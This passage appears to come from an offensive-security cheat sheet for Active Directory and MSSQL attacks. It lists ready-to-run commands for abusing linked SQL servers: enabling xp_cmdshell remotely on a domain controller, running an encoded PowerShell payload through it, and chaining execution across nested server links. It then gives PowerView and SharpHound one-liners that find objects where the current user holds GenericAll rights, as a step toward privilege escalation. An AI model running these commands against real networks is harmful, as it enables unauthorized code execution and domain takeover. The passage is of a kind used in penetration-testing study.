 #### Query Links

OpenQuery

```
select version from openquery("dc01", 'select @@version as version')
```

Enable RPC and exec_cmdshell for execution

```
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT DC01;
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT DC01;
SELECT * FROM OPENQUERY(\"DC01\", 'select @@servername; exec xp_cmdshell ''powershell -enc [...]''');
```

Execute on links of links. 

```
EXEC ('sp_linkedservers') AT DC01

select mylogin from openquery("dc01", 'select mylogin from openquery("appsrv01", ''select SYSTEM_USER as mylogin'')')

EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT appsrv01') AT dc01
```

---

## 7. Full Control

### Enumeration

#### PowerView

```
# import
. .\PowerView.ps1

# enum ACL
Get-ObjectAcl -Identity adm

# sid convert
ConvertFrom-SID <sid>

# Local Group GPO
Get-DomainGPOLocalGroup -ResolveMembersToSIDs -domain vault.local

# Bloodhound
Invoke-Sharphound3 -Command "-c GPOLocalGroup,all -d vault.local"

# enum all ACLs
Get-ObjectAcl -Identity adm -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}

# enumerate specific object ACL
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum all users current user has GenericAll to
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum all groups user has access GenericAll to
```